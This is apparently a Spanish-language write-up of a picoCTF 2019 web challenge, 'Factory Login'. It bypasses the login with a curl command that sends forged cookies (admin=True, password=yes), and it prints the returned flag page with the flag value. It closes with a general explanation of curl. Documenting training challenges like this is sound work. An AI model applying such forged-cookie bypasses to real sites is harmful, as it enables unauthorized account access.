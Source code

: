 ## Descripción 
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Hints
1. Hmm it doesn't seem to check anyone's password, except for Joe's?
## Solución
```
</html>DanielMtzC-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/p44573/flag -H "Cookie: username=admin; password=yes; admin=True" 
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

```
## Notas
El comando `curl` sirve para ==transferir datos utilizando diversas sintaxis de URL y una amplia gama de protocolos (HTTP, HTTPS, FTP, etc.) desde la línea de comandos==. Es una herramienta para desarrolladores y administradores de sistemas que permite descargar archivos, interactuar con APIs web, automatizar tareas de transferencia de datos y monitorear la salud de sitios web. 

Usos principales del comando `curl`:

- **Descargar archivos**: 
    
    Permite descargar archivos de internet directamente desde la terminal, guardándolos en tu sistema. 
    

- **Interactuar con APIs**: 
    
    Se utiliza para enviar y recibir datos de servicios web, como al hacer una petición POST a una API, que es una forma de "simular" la acción de un navegador web. 
    

- **Automatizar tareas**: 
    
    Es una herramienta clave para automatizar transferencias de archivos o secuencias de operaciones que no requieren supervisión. 
    

- **Monitorear sitios web**: 
    
    Se puede emplear para verificar la conectividad y el estado de un sitio web o servidor, ya que puede simular la acción de un usuario navegando. 
    

- **Transferir datos con diferentes protocolos**: 
    
    Además de HTTP/HTTPS, es compatible con protocolos como FTP, SFTP, y SMTP, lo que lo hace muy versátil. 
    

Ejemplos de lo que puedes hacer con `curl`:

- **Descargar un archivo**: `curl -O [URL_del_archivo]` (guarda el archivo con su nombre original). 

- **Enviar datos a una API**: `curl -X POST -d '{"nombre": "Ejemplo"}' [URL_de_la_API]`. 

- **Ver los encabezados de una respuesta**: `curl -i [URL]` (muestra los encabezados junto con el contenido). 

- **Seguir redirecciones**: `curl -L [URL]` (sigue automáticamente las redirecciones del servidor a la URL final).
## Referencias

[[Dont-use-client-side]]